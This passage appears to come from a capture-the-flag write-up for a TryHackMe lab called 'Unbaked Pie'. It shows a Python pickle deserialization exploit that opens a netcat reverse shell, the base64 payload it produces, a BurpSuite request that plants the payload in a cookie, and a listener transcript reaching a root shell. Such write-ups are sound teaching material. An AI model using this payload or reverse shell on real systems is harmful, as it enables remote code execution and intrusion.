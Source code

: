 ## Exploit

Searching for exploits on python pickles led me to this [resource](https://davidhamann.de/2020/04/05/exploiting-python-pickle/), and I adapted the script to make a reverse shell:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.50.72 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Running the script gives me the following base64 encoded pickle:

~~~
$ python3 makepickle.py 
b'gASVaAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE1ybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC44LjUwLjcyIDQ0NDQgPi90bXAvZpSFlFKULg=='
~~~

Now, intercept the request in BurpSuite and modify the value of the `search_cookie`:

~~~
POST /search HTTP/1.1
Host: 10.10.101.128:5003
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.101.128:5003/search
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: http://10.10.101.128:5003
Connection: close
Cookie: csrftoken=UUD6QtcPz63MKhSdQJgK91xyDjsWUxWIrN8wR9LOLwJffuO3EQzY5Ul2kkccId2f; search_cookie="gASVaAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE1ybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC44LjUwLjcyIDQ0NDQgPi90bXAvZpSFlFKULg=="
Upgrade-Insecure-Requests: 1

csrfmiddlewaretoken=bU0PAWeQasy8PgUEVezIo4poKG4QSGq0INvfBCNPmSeBktQuJlSWkXdSrHO6Gmwx&query=apple
~~~

Now we have a reverse shell. We are `root` but there is no flag in the `/root` directory, and it seems that we are running in a docker environment:

~~~
┌──(kali㉿kali)-[/data/tryhackme/Unbaked_Pie/files]
└─$ nc -nlvp 4444         
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.101.128] 36542
/bin/sh: 0: can't access tty; job control turned off
# python3 -c "import pty;pty.spawn('/bin/bash')"
root@8b39a559b296:/home# id
id
uid=0(root) gid=0(root) groups=0(root)
root@8b39a559b296:/home# cd /root
cd /root
root@8b39a559b296:~# ll
~~~